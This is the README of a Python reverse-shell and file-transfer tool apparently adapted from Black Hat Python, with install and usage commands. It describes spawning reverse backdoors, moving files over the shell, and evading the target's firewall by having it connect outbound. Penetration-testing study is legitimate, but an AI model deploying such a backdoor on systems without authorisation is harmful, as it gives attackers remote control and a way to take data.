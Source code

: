 # All-In-One Network Utility
AIONet was built as a multipurpose tool to replace netcat. Written in Python3, AIONet offers features like reverse shell spawning, file upload and file download.  
The idea for this tool was obtained from chapter 2 of Black Hat Python by Justin Seitz. This program aims to update BHP's tool to provide features like class-based structure, Python3 support and error checking. A detailed explanation of the differences between the two can be found at the end of this document.

## Dependencies
* Python 3 (>=3.6)

## Download
### Option 1: Using `git clone`
```
git clone https://github.com/aarole/aionet.git
cd aionet/
```

### Option 2: Using `wget`
```
wget -O aionet.py https://raw.githubusercontent.com/aarole/aionet/master/aionet.py
```

### Option 3: Using `pip`
```
python3 -m pip install --upgrade aionet
```

### Option 4: Using Docker
#### Getting the image
##### 4.1.1: Using Docker Hub
```
docker pull e1ora/aionet
```

##### 4.1.2: Building the image using the repository's Dockerfile
```
git clone https://github.com/aarole/aionet.git
cd aionet/
docker build -t e1ora/aionet .
```

#### 4.2: Running the container
```
docker run --rm -it -v /path/to/some/directory:/opt -p PORT:PORT aionet -l -p PORT
```
* /path/to/some/directory
  * Directory (a) containing the files you may want to upload, or (b) to which you may want to download files
  * Directory path should be on your Docker host
* PORT
  * Port on which the listener will listen
  * Use the same port in all three locations

## Usage
```
On host:           python3 aionet.py -p PORT -l
On remote machine: python3 aionet.py -t TARGET -p PORT

Options:
-t target, --target target IP address of the remote listener
-p port, --port port       If used with -l, port where listener is to be created; else, port where remote listener exists
-l, --listen               Create a listener on the port defined using -p
-h, --help                 show this help message and exit
```

## Updates
* Program structure overhauled to allow for easy extension
  * Created individual classes for the server (listener/host) and the client (target/remote machine)
* Updated program to use reverse backdoors
  * Listener is created on the physical machine and remote target connects to it
  * Opening a port on the host ensures that firewalls on the remote target do not raise red flags
* Replaced getopt with argparse
* Moved file manipulation (download and upload) to post-shell operations
  * Used the base64 library to encode files during upload/download
  * Base64 encoding allows for easy transfer of files (especially non-text [pdf, png, jpg] files)
* Used the os library to allow for usage of cd and rm commands
* Added error-checking during file upload/download using SHA256 hashes (provided by hashlib)
  * Hash is sent from the source computer along with the message
  * The destination hashes the file locally
  * If the hashes match, the file is downloaded/uploaded; else, the file is deleted

## TODO
* Implement logging

## Known issues
* File download
  * ~~Non-text files (png, jpg, pdf) cause errors when downloading them~~
  * ~~Files are partially downloaded and a part of the base64 encoded file is printed~~
  * Fix: Switched from length-based recv to sentinel-based recv
* Exit condition
  * ~~exit command is not handled properly on the server~~
  * Fix: Moved handle() call in Server class to outside the while loop

